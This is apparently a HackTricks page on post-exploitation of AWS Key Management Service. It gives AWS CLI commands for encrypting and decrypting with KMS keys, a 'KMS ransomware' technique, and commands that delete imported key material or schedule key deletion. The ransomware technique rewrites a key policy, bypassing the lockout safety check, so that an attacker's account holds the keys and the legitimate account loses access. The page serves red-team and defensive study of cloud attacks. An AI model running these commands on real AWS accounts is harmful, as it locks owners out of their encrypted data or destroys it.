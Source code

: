 # AWS - KMS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## KMS

For more information check:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

* Using a **symmetric** key

```bash
# Encrypt data
aws kms encrypt \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --output text \
    --query Plaintext | base64 \
    --decode
```

* Using a **asymmetric** key:

```bash
# Encrypt data
aws kms encrypt \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --output text \
    --query Plaintext | base64 \
    --decode
```

### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service taht has been encrypted with those keys, creating an easy but effective ransomware over the account.

{% hint style="warning" %}
Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).
{% endhint %}

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

{% hint style="danger" %}
Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Destroy keys

```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

{% hint style="danger" %}
Note that AWS now **prevents the previous actions from being performed from a cross account:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
